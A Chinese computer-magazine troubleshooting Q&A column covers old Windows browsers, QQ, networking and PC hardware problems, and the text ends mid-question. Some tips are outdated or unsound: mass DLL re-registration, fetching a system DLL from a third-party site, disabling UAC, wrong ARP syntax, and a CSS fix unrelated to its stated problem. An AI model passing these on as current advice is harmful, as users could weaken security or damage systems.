按Win+R键打开运行对话框，输入regedit并按回车键打开注册表编辑器，依次展开到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Main\FeatureControl\FEATURE_MAXCONNECTIONSPERSERVER]，在右侧窗口中找到对应的浏览器对应项，然后直接将相应的数值设置为10进制“10”（也可以设置其他值，但不要设置太大）。这样设置后就可以明显提升IE内核的浏览器的浏览速度了。

不能访问Google相册

问：之前访问Google相册一切正常，但突然就无法访问了，而在另一台电脑上是可以正常访问的，本电脑中打开其他网页也没有问题。请问这是什么原因？
答：检查浏览器中是否设置了对Google相册网站的过滤，例如在IE中可以这样查看：单击菜单“工具→Internet选项”，在打开的窗口中选择“安全”选项卡，单击“受限制站点”图标，再单击“站点”按钮，在列表中检查是否有Google相册网址，有则直接删除即可。接下来再检查系统中的hosts文件（位置：系统盘中的WINDOWS\system32\drivers\etc），看其中是否屏蔽了Google相册网址，直接将与Google相册相关网址删除即可。

傻博士有话说：hosts是本地系统中的一个域名解析文件，其中包含了网址和IP地址对应的列表，通过它即可直接解析出IP地址而无需经过DNS服务器处理，从而加速网页打开的速度。如此文件中出现“127.0.0.1 网址#”的格式，即可将该网址屏蔽而无法访问了。因此，平时在遇到个别网址不能打开时，除了检查浏览器中的屏蔽设置外，应该再检查一下hosts文件是否将其屏蔽了。

QQ2009不能直接调用傲游

问：我已经将傲游浏览器设置为默认浏览器，但是在QQ2009中调用的还是IE浏览器。请问如何设置才能让QQ2009能直接调用傲游？
答：可以尝试下面的方法：关闭QQ，在IE的选项设置中将IE设置为默认浏览器，接下来直接关闭IE浏览器并打开傲游浏览器，如果弹出是否将傲游设置为默认浏览器，直接选择是，或者在傲游的设置中将其指定为系统默认浏览器（单击菜单“工具→傲游设置中心”，在“常规选项”中点击“设为默认浏览器”即可），接下来再打开QQ应该能正常调用傲游浏览器了。

无法打开IE二级页面

问：我使用的是IE8浏览器，每次点击页面中的链接打开二级页面时总是显示错误信息，而直接将网址拷贝到地址栏中则可以打开。请问这是什么原因？
答：这可能是系统中与IE相关的DLL文件出了问题所致，一般只要重新注册以下几个DLL文件即可：actxprxy.dll、shdocvw.dll、Oleaut32.dll、urlmon.dll、mshtml.dll、browseui.dll、shell32.dll。为了操作方便，可以直接使用FOR命令将System32目录下所有的DLL文件重新注册一遍即可：在命令提示符窗口中输入“For %i in (C:\windows\system32\*.dll) Do regsvr32.exe /s %i”（不含外侧双引号）并按回车键即可。

总是无法上网

问：不管是设置为自动获取IP还是手工指定IP地址，都无法上网，而将网线插到另一台电脑上则可以正常上网。更换网卡、重新安装系统均无法解决问题。请问这是什么原因？
答：你的上网环境应该是在单位局域网中，可能是因为服务器中设置了IP地址与MAC地址的绑定。这种情况下，只能让网管帮助在服务器中解除绑定。
如果你并不是在单位局域网中，而是直接使用路由器方式上网，可能是在路由器中设置了IP与MAC地址的绑定，可以直接使用下面的命令解除IP地址与MAC地址的绑定来解决问题：
先按Win+R键打开运行对话框，输入“cmd”并按回车键打开命令提示符窗口，执行“ipconfig /all”命令查出本机的IP地址及网卡MAC地址。接下来尝试使用“ARP -d IP地址 MAC地址”命令来解除绑定。

QQ 无法登录

问：为了挂其他QQ，我系统中同时安装有QQ2009和极速版QQ2008（装在不同目录），开始一切正常，后来在极速QQ中登录了一次常用QQ号后，就无法在QQ2009中登录该QQ号码了，登录其他号码仍是正常的。请问如何解决？
答：只要打开QQ2009的安装目录找到对应该QQ号码的文件夹，找到下面的info.db文件并将其删除，重新启动QQ即可正常登录了。

淘宝旺旺收不到部分消息

问：在使用淘宝旺旺与卖家聊天时，对方明明发了某条消息，但我这边却没有收到。请问这是怎么回事？
答：这可能是旺旺中设置了过滤关键字，而没有收到的消息中刚好含有某个关键字所致。不妨暂且取消旺旺的关键字过滤功能：单击主面板中的“主菜单→系统设置”，在打开的窗口中选择“安全设置→防垃圾”项，取消选中“启动防垃圾”。

迅雷总是提示 UPnP 阻滞

问：Windows XP系统，在使用迅雷时，托盘区中的迅雷图标总是闪动，打开后显示UPnP阻滞，按照提示在路由器中设置开启了UPNP功能但仍然不起作用。请问这该如何设置？
答：这是因为你的XP系统中没有开启UPnP功能，只要按下面的方法开启即可：
在控制面板中打开“添加或删除程序”，单击左侧“添加/删除组件”，选择“网络服务→详细信息→UPnP用户界面”，保存设置即可。

傻博士有话说：广义上说，UPnP本身是一项为了解决不同设备之间的无缝通信问题而诞生的技术统称，而就下载工具这个角度来说，它理解为通用即插即用（Universal Plug and Play），是一组协议的统称。在迅雷、BitComet等下载工具中，UPnP包含了2层意思：1.对于一台内网电脑，下载工具的UPnP功能可以使网关或路由器的NAT模块做自动端口映射，将下载工具监听的端口从网关或路由器映射到内网电脑上。2.网关或路由器的网络防火墙模块开始对Internet上其他电脑开放这个端口。有了UPnP技术后，在内网的电脑中就可以方便地使用BT下载功能了。

Skype 充值后不能打电话

问：我购买了Skype点卡，在Skype上也显示了国内卡信息，但在Skype中拨打电话时还是显示我没有Skype点数。请问这是为什么？
答：你使用的可能是国际版Skype，而现在国内应该使用Tom版Skype。购买的国内卡正常情况下只能在Tom版Skype中使用。不过，你可以在国际版中拨打电话时回拨前缀“+990086680580”来直接在国际版中使用国内卡拨打电话。例如要拨打的电话号码为“055812345678”，那么正确的拨打方式应该是：+99008668058055812345678。

QQ 不能发送文件夹

问：我安装的是QQ2009 SP4，在使用文件夹发送功能时，有的好友可以成功发送，而给有的好友发送文件夹时总是提示错误。请问这是什么原因？
答：QQ的这一新功能，需要发送和接收方都使用的是QQ2009 SP4版本才行。所以，要想其他好友能用到这一功能，劝他升级吧。

Firefox 中显示图片全黑

问：我在使用Firefox浏览器打开网页，查看影视预览或是一些图片时，会变成全黑状态，接下来连文字都看不见了。请问这是什么原因？
答：这是Firefox浏览器自有的一个小Bug，在新版3.6a1上已经解决了此问题，可以考虑更新到最新版本。如果不想更新，也可以在原版基础上进行解决：打开Firefox安装目录，找到“userContent.css”文件并用记事本打开，然后加入以下代码：
@-moz-document domain("bbs.et8.net")
{
    div[id^="post_message_"] { overflow-x: visible !important;}
}
最后保存退出该文件即可。

QQ 农场重启后总要安装 Flash 插件

问：我刚安装了Windows 7系统，打开QQ农场时需要安装Flash插件，按照提示下载安装了，但是重新启动系统后再次打开QQ农场时又会提示安装。请问这是什么原因？
答：据你描述的现象，很像是安装了系统还原类软件（例如影子系统）或是类似功能的还原卡设备。如果的确安装了这类软件或是设备，只要将这些软件暂时关闭，当安装好Flash插件后再重新开启它们即可。此外，再检查一下系统是否感染病毒，有些病毒会自动删除系统中的相关组件，可能会引发类似的故障。

Firefox 经常崩溃

问：我使用的是Firefox 3.5.2浏览器，平时浏览网页时会经常无缘无故地崩溃、退出。请问这是什么原因？
答：Firefox经常出现崩溃现象，问题解决方法应该从插件入手，禁止掉一半插件后再测试是否崩溃，然后再禁止掉剩下的一半插件并查看运行状况，按此方法进行排除直至找到可能导致问题出现的插件，将其卸载即可解决问题。此外，Firefox现在的最新版为3.5.3（下载地址：http://www.newhua.com/soft/3600.htm），不妨升级到最新版本看是否解决问题。

找回 IE 图标

问：Windows XP系统中了病毒后，桌面图标全部丢失，现在想将图标显示出来，在桌面设置窗口中却找不到IE项了。请问，如何才能找回IE图标？
答：你使用的应该是SP2及以后版本的系统，这些系统中已经将IE项从桌面设置中隐藏了。可以通过下述方法找回：在桌面右击选择“属性”打开“显示属性”面板，切换到“桌面”选项卡，点击“自定义桌面”按钮，打开“桌面项目”面板，然后按一下键盘上的i键，保存设置后即可在桌面上重新显示IE图标了。

傲游无法显示图片

问：在傲游浏览器中打开HTTPS网页时，其中的图片都不能正常显示，而其他页面中的图片显示则没有问题。请问这是什么原因？
答：这是由于在IE浏览器中没有设置“启用显示混合内容”项，而在打开HTTPS页面弹出“安全警告”窗口时又选择了“是”所致。只有选择“否”时才能正常显示图片。解决方法就是重新在IE中进行设置：打开IE浏览器，单击菜单“工具→Internet选项”，选择“安全”选项卡，单击“自定义级别”按钮，在打开的设置窗口列表中找到“显示混合内容”选项，直接选择“启用”，保存设置即可。这样设置后，再打开HTTPS页面时就能正常显示图片了，而且不再会显示上述安全警告提窗口。

傻博士有话说：也许不少朋友会产生疑问：明明是傲游浏览器出的问题，挨着IE什么事？殊不知，像傲游、世界之窗、Green Browser等浏览器都使用了IE浏览器内核，因此，在IE浏览器中的很多设置会直接影响到这些浏览器。而像Firefox、Opera、Chrome等非IE核心的浏览器则不会受IE浏览器的参数设置影响。所以，在使用IE内核的浏览器时遇到一些故障，如果直接在这些浏览器中无法解决，应该考虑IE浏览器是否出了问题，通常可以通过360安全卫士、超级兔子等修复工具进行修复处理。

点击 QQ 上的按钮没反应

问：我QQ主窗口中的那一排按钮（空间、邮箱、购物等）突然失效了，无论如何点击都不能启动浏览器打开目标页面。请问这是什么原因？
答：这可能与浏览器有关而不关QQ的问题。QQ上的那几个按钮只是一个指向特定网址的链接，导致这个问题出现，可能是因为系统中安装了两款以上浏览器，而系统默认浏览器混乱所致，只要重新指定默认浏览器为IE或是其他浏览器即可。此外，如果只有IE浏览器的情况下出现这种问题，可能是IE被恶意软件、插件等损坏所致，建议使用360安全卫士进行修复处理：打开360安全卫士主界面，点击其上的“高级”按钮，然后切换到“修复IE”选项卡，点击其中的“立即修复”即可。

聊天软件出现 0x00000005 错误

问：我安装的是Windows XP系统，最近出现任何聊天工具都不能使用的怪事，例如QQ、MSN等，只要运行就会出现0x00000005错误。请问这是什么原因？
答：这可能是系统感染病毒破坏了名为USP10.DLL的文件所致。只要对系统进行彻底的病毒查杀，之后再到http://www.dll-files.com/dllindex/pop.php?usp10下载该文件并将其拷贝到系统分区下的Windows\System32目录中。接下来再按Win+R打开运行对话框，输入“regsvr32 %WINDIR%\system32\usp10.dll”（不含外侧引号）并按回车键重新注册该文件就可以了。

无法设置 IP 地址

问：我手工将本地连接的IP地址指定并保存后，之后系统会自动将其设置为自动获取IP地址。请问这是什么原因？
答：首先要确保你的系统账号是管理员身份账号，否则无法修改系统的相关设置，包括IP地址的设置。其次，如果系统中使用了还原卡或是类似的软件（例如影子系统），当重新启动系统时就会出现类似的故障，只有取消这类保护功能才能进行设置。

这里以类似影子系统Returnil Virtual system为例，打开软件主界面后，点击“设置”，再在设置窗口中选中“设置系统为开放模式”项，单击“确定”后重启，即可关闭软件的还原功能了。此时再对系统进行修改，完成后，可重新将Returnil Virtual system设置为保护状态，即在设置窗口中再“设置系统为保护模式”。

傲游标签总是自动刷新

问：朋友用了一次电脑后，我再傲游浏览器浏览网页，打开的标签总会隔几秒就自动刷新一次，在打开网上银行时，登录账号还没输入就刷新了，有时候登录了又因为刷新被自动退出。请问这是什么原因？
答：这肯定是你的朋友将傲游浏览器设置为自动刷新了。只要取消该设置即可：右击标签栏并选择“自动刷新”，在展开的子菜单中取消选择“启用”，保存设置即可。

IE 打开 QQ 邮箱进入英文模式

问：我使用IE8浏览器打开QQ邮箱时，进入邮箱后总是显示为英文界面，而改用谷歌浏览器就能正常进入中文界面。请问这是什么原因？
答：这可能是IE中设置不当造成的。尝试按下述方法重新调整参数：单击菜单“工具→Internet选项”，选择“常规”选项卡，单击“语言”按钮，在列表中将“中文（简体，中国）”设置为第一项即可。如果还不行，可直接将IE默认参数重置即可：选择“高级”选项卡，单击“重置”按钮即可。

Windows 7 下无法保存傲游设置

问：我使用的是Windows 7系统，安装的是傲游浏览器，浏览网页什么的都正常，但是在傲游浏览器中进行的各种设置总是不能保存，重新启动后又得重新设置。请问这是什么原因？
答：这主要是由于Windows 7中开启了UAC，同时你使用的可能不是管理员账号所致。只要使用管理员账号登录，并关闭UAC功能即可解决。

管理员权限账号登录系统就可以解决问题。假如平时使用系统不使用管理员账号，可以按下述思路来解决：

- 如果用傲游账号登录的话，在 C:\Program Files\Maxthon2 文件夹下面会有一个以你的账号命名的文件夹，例如 user@host.com，只要将此文件夹移动到一个非管理员用户也可以操作的文件夹中（例如 D:\maxthon2）。
- 打开“开始→所有程序→附件→命令提示符”并用鼠标右击之，选择“用管理员权限运行”，打开命令提示符窗口后，输入 `cd "C:\Program Files\Maxthon2"`（不含外侧引号，下同）后按回车键，再输入 `mklink /j user@host.com "D:\Maxthon2\user@host.com"` 并按回车键。这样操作后就可以解决前面的问题了。注意，在具体设置时请将 user@host.com 更换为你自己的傲游账号。

> 傻博士有话说：很多朋友都不喜欢使用 UAC 功能，在安装系统后都是手工将其关闭。其实，系统自带的 UAC 功能对系统安全来说很有帮助，开启该功能后，一些病毒、木马在没有得到允许的权限下便无法达到破坏的目的了，因此，不建议关闭此功能。其他程序遇到类似问题时，不妨先试试用上面的方法来解决。

## IE 核心的浏览器打不开百度贴吧

问：我使用的是 Windows XP 自带的 IE 浏览器，使用该浏览器无法打开百度贴吧，换用其他 IE 内核的浏览器也是无法打开，需要多次刷新才行，而打开后再打开二级页面时又不行。而改用 Opera 或是 Firefox 浏览器则没有问题。请问这是什么原因？

答：不少朋友均遇到此故障，这是由于在使用 NOD32 杀毒软件的环境下对系统打了 KB974455 这个补丁而导致的问题。只要暂时关闭 NOD32 杀毒软件即可正常访问，或者在添加或删除程序中找到上述补丁程序并将其卸载掉即可解决问题。

## 网页搜索框不能输入

问：我使用的是系统自带的 IE 浏览器，不管打开哪个网页，页面中的搜索框总是无法输入，请问这是什么原因？

答：你打开的是不是网上银行之类的网站？如果只是这类网站无法打开输入框，有可能是没有安装客户端插件所致，只要下载网站提供的插件程序，之后便可正常使用了。如果是所有的网页均无法打开搜索框，那可能是 IE 浏览器被恶意程序侵袭过导致无法正常工作所致。解决方法很简单：

从其他系统中搜索 `mshtmled.dll` 文件，找到后重新启动自己的系统并进入安全模式，再将其拷贝到自己系统中的 `%windir%\system32` 目录中，之后按 Win+R 打开运行对话框，输入 `regsvr32 mshtmled.dll` 注册该文件即可。

## 无法查询手机话费

问：在单位的电脑中可以正常登录中国移动网上营业厅查看话费，但是在家庭的电脑中总是无法查询，在发送密码验证码时手机总是无法接收到短信。请问这是什么原因？

答：可能是你的电脑中拦截了中国移动飞信网站上的弹出窗口。请尝试使用 IE 浏览器打开，如果仍不能正常发送密码验证码短信，请单击菜单“工具→Internet 选项”，选择“高级”选项卡，单击“重置”按钮，在默认参数设置情况下应该就可以正常打开移动营业厅并使用各种功能了。

## QQ 传文件非常慢

问：经常使用 QQ 与朋友互传文件，而与有的朋友传文件时可以达到 60K 左右，而与有的朋友只有几 K 的速度。但实际上双方各自的网速都很快。请问这是什么原因？

答：网速快并不代表 QQ 传文件就能快，这期间主要受带宽的影响。假如网速很快，但当前正在使用 BT 下载占用了大量带宽，在使用 QQ 传文件时也就不会很快了。而关闭 BT 下载这样占用大量带宽的软件就能达到提速的目的。此外，如果传文件的双方一方使用电信网络，另一方使用网通或是其他网络，互传文件也会出现慢的现象，这种情况下可以使用最新版 QQ 提供的离线传文件功能来绕开不同网络运营商之间的限制，从而达到提高传输速度的目的。

## 宽带连接问题

问：我使用的是 ADSL 宽带，拨号程序为 Windows XP 系统自带，在重装系统后，显示桌面时速度很慢，启动完毕后本地连接图标上显示黄色感叹号。请问这是什么原因？

答：这是由于你没有为本地连接设置固定 IP 地址所致。在系统启动时需要检测网络并最终为系统分配一个无冲突的 IP 地址，因此需要占用一些时间。遇到网络状况不好时，可能占用更多的时间导致启动变慢。为本地连接设置固定 IP 地址：在控制面板中打开网络连接，右击“本地连接”，选择“属性”，在打开的列表中找到并双击“Internet 协议 TCP/IP”项，在打开的窗口中设置一个固定 IP 地址，保存即可。

## 部分网络访问特别慢

问：我安装的是中国移动宽带网，白天使用正常，但每到晚上 7 点左右上网时，打开部分网站速度奇慢无比，而打开中国移动的一些网站速度却特别快。请问这是什么原因？

答：晚 7 点是上网高峰期，平时注意不到的问题，在此时可能会变得非常明显显示，比如网速变慢等。如果只是打开非中国移动的一些网站（或是服务器）速度慢，那是因为不同网络服务商之间的网络限制所致。出现这种情况时，可使用网络加速工具来解决问题，例如傲盾加速器 (http://www.adsq.com/)、统一加速器 (http://www.tyjsq.com/) 等。其中，傲盾加速器提供免费 1000 分钟服务，不妨试试。

> 傻博士有话说：不同的网络服务商之间经常会出现瓶颈效应，主要表现为两个不同网络服务商下的用户之间互访速度很慢，甚至使用 QQ 传文件这样的网络应用也会受到牵连。因此，很多网站分别提供了不同的运营商服务器，如在华军网站下载软件时，下载链接会有中国电信、联通网通、移动铁通、长宽广电之分，我们应该根据自己的网络来选择镜像服务器，避免跨网下载而出现速度慢的情况。另外，大的软件下载站，除了分不同的网络服务商之外，在不同网络服务商下还会在不同地域放置服务器，尽可能选择离自己较近的服务器下载，速度也可能更快些。

## Firefox 无法自动升级

问：我使用的是 Firefox 浏览器，最近它总是不能自动升级，升级时错误提示信息如下：The update could not be installed. Please make sure there are no other copies of Firefox running on your computer, and then restart Firefox to try again。请问这是什么原因？

答：根据英文提示信息显示，你的系统中可能有之前安装的 Firefox 的残留文件。要想彻底根治该问题，建议卸载当前版本，然后在注册表中搜索 Firefox 相关项并在找到后将其删除，清理干净注册表中 Firefox 的残留项后再重新安装应该可以解决问题。

## 两个账号同时登录出现问题

问：我需要在老师研修网看一些在线视频，但现在只能登录一个账号，如果登录另一个账号，当前的账号就退出。即使打开另一个浏览器，虽然能登录进去，但是一点视频播放，前一个浏览器里登录的视频也会随之改变，请问这该如何解决？

答：这种情况，建议使用“马甲”来解决问题，如果使用的是 IE 浏览器，可以从 http://www.newhua.com/soft/75052.htm 下载“马甲管理器”软件，运行后右击托盘区中的马甲图标，选择“小马甲 1 号”登录第一个账号，然后再使用“小马甲 2 号”登录第二个账号，这样就可以达到两个账号互不影响的目的了。如果使用的是 Firefox 浏览器，请从 https://addons.mozilla.org/en-US/firefox/addon/3255 下载这款马甲插件来使用。

## Chrome 起始页无法修改

问：我在使用 Chrome（谷歌浏览器）时，其起始页被修改成一个陌生网站的网址，并禁止我设置为空白页或是我常用的谷歌。请问这该如何解决？

答：Chrome 浏览器使用的并不是 IE 内核，不能像其他使用 IE 内核的浏览器那样通过修复 IE 来解决问题。请右击 Chrome 的快捷方式图标并选择“属性”，查看在快捷方式参数中有没有添加上述网址，有的话直接删除即可。

## 傲游无法切换用户

问：我有两个傲游账户，里面分别存放了不同的网址，在我想切换账号时，发现相应按钮显示为灰色不可用。请问这该如何解决？

答：首先尝试用鼠标右击菜单栏，选择“添加或删除按钮”，在打开的列表中选择“重置”项。如果这样仍不能解决问题，退出傲游浏览器，将傲游安装目录下的 ui.xml 文件剪切到桌面（默认位置为 `maxthon2\xxx@xxx.com\config\ui.xml`），然后重新使用账号登录或是更改账号登录即可。

## QQ 农场无法进入

问：之前使用了一款帮助偷好友果实的小软件，今天在打开 QQ 农场时系统提示我不能进入农场。请问这是什么原因？

答：这是因为系统检测到你使用了外挂软件。QQ 农场规定不允许使用外挂，否则会对用户进行限制。只要停止使用外挂，一定时间后就可恢复正常操作。如果继续使用，还有可能被降级甚至封号。

## 转换地址后无法下载

问：有一部电视剧提供的是迅雷专用下载链接，其他网友用迅雷可以正常下载。我没有迅雷，通过工具将此下载链接转换成普通下载链接，却不能下载（试过 IE、快车等）。这是什么原因？

答：根据你的描述，极有可能是这个链接的原始文件已经不存在了，当然无法下载。而迅雷之所以能下载，是因为迅雷的下载机制与普通下载方式的机制不同：迅雷能从服务器中检索有哪些迅雷用户曾经下载过这个文件，然后尝试连接这些用户获取这个文件。因此，当原始链接对应的文件丢失后，迅雷会“绕道”下载，这就是为何下载源没有之后迅雷依旧能下载的“奥秘”。建议你还是安装一个迅雷，搜索下载各类资源会比较方便。



## 实现混合交火对显卡有要求

问：我要用 HD2600 Pro 与 A790GX+ 主板上的板载显卡组成混合交火，并在 BIOS 中开启了混合交活，但是进入 Windows XP 操作系统，使用 Catalyst Control Center 设置里无法找到 crossfire 选项，请问这是什么问题造成的？

答：你独立显卡是 HD2600 Pro 核心，而主板是 A790GX+，采用 AMD 790GX+SB750 芯片组。AMD 官方目前规定能够与 AMD 790GX 芯片组实现交火功能的显示核心只有 HD 2400PRO 和 HD 3450。所以你的显卡不能支持交火，建议你更换合适的显卡，一般问题可以解决。

> 傻博士有话说：混合交火英文全称是 Hybrid CrossFireX，是 AMD 在其 7 系列整合芯片组上的特有技术，用户只要将支持混合交火的独立显卡插在支持采用 AMD 790GX 等芯片组的主板上，就可可以组建一个混合交火系统。当计算机进行普通图形处理时，系统会主要使用集成显卡工作，以降低功耗；而进行 3D 游戏等对显卡性能要求较高的应用时，独立显卡开始工作，并与集成显卡协同工作，从而提升显示性能。

## 电源供电不足造成显卡问题

问：我之前一直使用 7300GS 显卡，最近由于要玩游戏，更换了一块 9600GT 显卡，但是使用该显卡经常出现启动显示无信号，而换回原有显卡问题消失，请问这是什么问题造成的？

答：由于你使用 7300GS 显卡没有出现问题，由此说明主板、内存、CPU 等关键部件不存在什么问题。而造成该问题的原因很可能是由于电源供电不足造成的，因为 7300GS 和 9600GT 在功耗上的差别较大，建议你更换大功率电源，一般问题可以解决。

## 开机提示硬盘问题

问：一台计算机使用希捷硬盘，最近开机提示：Disk error, press any key to restart, Reboot and select proper Boot device or Insert Boot media in selected Boot device and press a key。请问这是什么问题造成的？

答：建议你首先更换一根 SATA 硬盘数据线，看问题是否可以解决。如果问题仍然存在，可以更换一下主板上的 SATA 数据接口，确定该问题是否由于主板 SATA 接口接触不良造成的。如果问题仍然没有解决，建议你下载希捷官方提供的专业硬盘检测工具 SeaTools，对硬盘进行检测，下载地址：http://www.newhua.com/soft/5482.htm。

## 内存故障造成软件无法运行

问：一台计算机运行任何软件，Windows XP 操作系统提示“内存不能为 read 或 written”，重新安装 Windows XP 操作系统，在复制文件时死机，请问这是什么问题造成的？

答：Windows XP 操作系统提示“内存不能为 read 或 written”，一般是由于病毒或内存存在问题造成的。由于你在重新安装操作系统过程出现死机，所以基本排除了病毒问题。问题应该出在内存上，首先，你需要确定你的内存没有超频使用；其次，如果你的计算机有 1 条以上的内存，建议你将内存单独插拔，确定故障是否是由于内存不兼容造成的；再次，将内存条拔下，换插到主板上的其他内存插槽上，看问题是否可以解决；如果问题仍然存在，建议你更换内存条。

## SATA 硬盘变成即插即用设备

问：一台计算机使用 SATA 硬盘，重新安装 Windows XP 操作系统后，桌面右下角的任务栏里面总显示“安全删除硬件”，请问这是什么问题造成的？

答：根据你描述的现象，你的计算机主板应该采用的较早版本的 nForce 芯片组，一些老型号的 nForce 芯片组连接 SATA 接口硬盘后，在安装主板驱动时，如果选择安装 IDE-SW 套件，Windows XP 操作系统就会把 SATA 硬盘识别为即插即用设备。建议你删除主板驱动，重新安装主板驱动，且不要选择安装 IDE-SW 套件，一般问题可以解决。

## Intel G43 主板对内存的要求

问：一台计算机使用技嘉 GA-EG43M-S2H 主板，两条金士顿 1GB DDR2 667 内存，最近为该机加装两条内存，无法启动计算机，请问这是什么原因造成的？

答：技嘉 GA-EG43M-S2H 主板采用 Intel G43 + Intel ICH10 芯片组设计，该芯片在设计规格上要求，当使用四条内存时，内存必须为单面内存，而你的电脑估计是使用了双面内存，建议你更换单面内存，一般问题可以解决。

## USB 键盘安装系统时无法使用

问：一台计算机安装 Windows XP 操作系统时发现 USB 口键盘无法使用，造成无法安装 Windows XP 操作系统，而将该键盘插入其他计算机可以正常使用，请问这是什么问题造成的？

答：这是由于你的主板 BIOS 设置屏蔽了键盘支持选项，造成安装时 USB 键盘无法被识别。具体解决方法如下：启动计算机，按 DEL 键进入主板 BIOS 设置，选择 Integrated Peripherals（外围设备设置），找到 USB Controller（USB 控制）设置为 Enabled（启用），再将 USB Legacy Support（支持包括 USB1.1 在内的设备）设置为 Enabled，按 F10 键，保存退出主板 BIOS 设置，一般问题可以解决。

## Intel 奔腾双核 E5200 频率降低

问：一台计算机使用升技 AW9D-MAX 主板，最近更换为 Intel 奔腾双核 E5200 的 CPU，在主板 BIOS 中发现 CPU 的主频只有 2.4GHz，不是 Intel 奔腾双核 E5200 的 2.5GHz，而倍频是 12，请问这是什么问题造成的？

答：Intel 奔腾双核 E5200 的主频应该是 2.5GHz，而倍频应该是 12.5，而你的 CPU 倍频应该是 12，这说明主频没有达到 2.5GHz，是由于倍频没有达到预设值造成的。由于升技 AW9D-MAX 主板原始 BIOS 不支持 0.5 倍频，所以必须通过升级主板 BIOS 解决。不过由于升技主板事业部目前已经结束营业，已不提供新版本主板 BIOS。所以建议你在主板 BIOS 中将 CPU 外频调整到 209MHz，从而使 Intel 奔腾双核 E5200 的主频达到 2.5GHz。

> 傻博士有话说：由于 P4 处理器时代以后，0.5 倍频的 CPU 相对较少，造成一些主板 BIOS 对 0.5 倍频的 CPU 存在兼容问题，从而造成上述问题，不过一般均可以通过升级主板 BIOS 来解决。此外，提醒目前使用升技 AW9D-MAX 主板的用户，如果要升级 CPU，建议不要选择带有 0.5 倍频的 CPU，从而造成不必要的麻烦。

## iPod 为何不能充电

问：最近购买了一台 iPod，将 iPod 接入到计算机 USB 接口进行充电，iPod 的充电指示灯显示为绿色，没有进行充电，而说明书上写明 iPod 充电时，充电指示灯应该闪烁的黄灯，请问这是什么问题造成的？

答：你可以将 iPod 连接到计算机的 USB 接口，开启 iTunes，选择“设置→iPod”选项，找到“启用移动磁盘功能”，选择“确定”，设置完成后 iPod 的充电指示灯应该就可以变成黄色闪烁状态。

## 790GX 主板花屏

问：一台计算机使用 790GX 主板，板载显卡，最近经常出现花屏现象，请问这是什么问题造成的？

答：由于采用板载集成显卡，而板载显卡一般均共享系统内存为显存使用，所以建议你更换内存条，看问题是否可以解决；如果问题仍然存在，建议你启动计算机，按 DEL 键进入主板 BIOS 设置，选择 Internal Graphics Configuration（板载显卡设置）菜单，找到 SIDEPORT Clock Speed（时钟频率）选项，将其设置为 400MHz，按 F10 保存退出主板 BIOS 设置，一般问题可以解决。

## 显示分辨率为何无法设置

问：一台计算机的显示分辨率为 1440×900，最近不知为何，开机后显示分辨率变成 1360×768，而且无法重新设置，请问这是什么问题造成的？

答：首先，建议你更新显卡驱动，右键单击“我的电脑”，选择“属性→硬件→设备管理器”，双击“显示卡”，找到相应显卡，右键单击该显卡，选择“更新驱动程序”，放入显卡驱动光盘，按提示安装显卡驱动程序，看问题是否可以解决。如果问题仍然存在，建议你更换显卡，一般问题可以解决。

## HDMI 为何不能满屏显示

问：一台计算机使用三星 2494HS 显示器，使用 DVI 接口，最近购买迪兰恒进 HD4850 星钻版显卡，该显卡拥有 HDMI 接口，所以将该显卡的 HDMI 接口与三星 2494HS 的 HDMI 接口连接，但是显示效果四边存在黑边，请问这是什么问题造成的？

答：首先，建议你更换 HDMI 线，看问题是否可以解决。如果问题仍然存在，建议你调节显示器菜单，选择“设置→AV 模式”将其设置为关闭，当“AV 模式”处于关闭状态时，三星 2494HS 显示器显示模式有七种模式，可以满屏点对点显示。

## 停止 HDMI 的音频输出

问：一台计算机使用 Windows Vista 操作系统，创新 Inspire T7900 音箱，最近将计算机主机用 HDMI 线与液晶电视连接，可以正常显示，但是音频只能通过电视喇叭输出，无法从音箱输出，请问这是什么问题造成的？

答：这是由于你使用了 HDMI 接口造成的。建议单击“开始”，选择“控制面板→声音”，单击“播放”选项卡，右键单击要使用的设备，选择“设置成默认设备”。此外，一些 7.1 音箱在使用时，需要把原有的音频设备彻底“禁止”才能够正常使用。

## 不能打开 ASIO.SYS

问：我用的是华硕 P5PL2 主板，我之前用“华硕系统诊断家”升级了程序和 BIOS 之后，当我开机时出现了 Can't Open ASIO.SYS（不能打开 ASIO.SYS）的提示。

答：首先，要排除病毒的可能。其实这个文件是声卡驱动文件，故障是由于 Windows 和“华硕系统诊断家”里的驱动冲突造成的，只要你卸载“华硕系统诊断家”一般可以解决问题。另外，这个问题同样也发生在华硕 P5Q PRO 主板上。

## 数字电视为何马赛克

问：我家的小区最近安装了数字电视机顶盒，但是安装后发现有时候许多频道的节目出现马赛克，声音时断时续，请问这是什么问题造成的？

答：首先，建议找到机顶盒的遥控器“菜单”按钮，在数字机顶盒“主菜单”下选择“系统管理→恢复出厂设置”，看问题是否可以解决。如果问题仍然存在，建议你重新安装连接数字机顶盒与有线电视插口的同轴电缆公母型接头，排除由于公母型接头与同轴电缆接触不良，造成数字电视机顶盒接收信号不稳，从而造成画面时断时续现象是非常常见的。此外，数字电视机顶盒的顶部散热孔处不要放置杂物，过多的杂物会造成机顶盒散热不良，影响画面输出效果。如果问题仍然存在，建议你与当地的数字电视提供商取得联系，请专业人员帮你做进一步检测。

> 傻博士有话说：随着数字电视在我国的逐渐普及，数字电视机顶盒已经走入了更多的家庭，而机顶盒对同轴电缆的质量要求相比传统的模拟信号电视要高一些；一些用户以前在模拟信号电视下可以正常使用的公母型接头同轴电缆，在数字电视机顶盒上无法正常使用，所以我们在选择同轴电缆时应该选择质量相对较高的产品，以免影响数字电视信号接收质量。

## BIOS 写保护造成无法刷新

问：一台计算机刷新主板 BIOS 时系统提示：“不可识别的类型”，但是我下载的主板 BIOS 程序应该是正确的，请问这是什么原因造成的？

答：该问题可能是由于你的主板 BIOS 开启了防病毒破坏的写保护功能造成的，建议你启动计算机，按“DEL”键进入主板 BIOS 设置，选择 Miscellaneous Control→Flash Part Write（杂项控制→闪存写入），将其设置为 Disable（关闭），按 F10 键保存退出主板 BIOS 设置。就可以正常进行 BIOS 刷新。刷新 BIOS 完成后，建议你将 Flash Part Write 设置为 Enable（开启），保证 BIOS 日常使用不会受到病毒破坏等问题。

## 华硕 M4A78 PRO 与 PS/2 接口键盘不兼容

问：一台计算机的主板是华硕 M4A78 PRO，使用 PS/2 接口键盘，启动计算机后，屏幕出现如下提示：Pressed: F1 to Enter Setup; F2 to continue with defaults，换用 USB 口键盘问题解决，请问这是什么原因造成的？

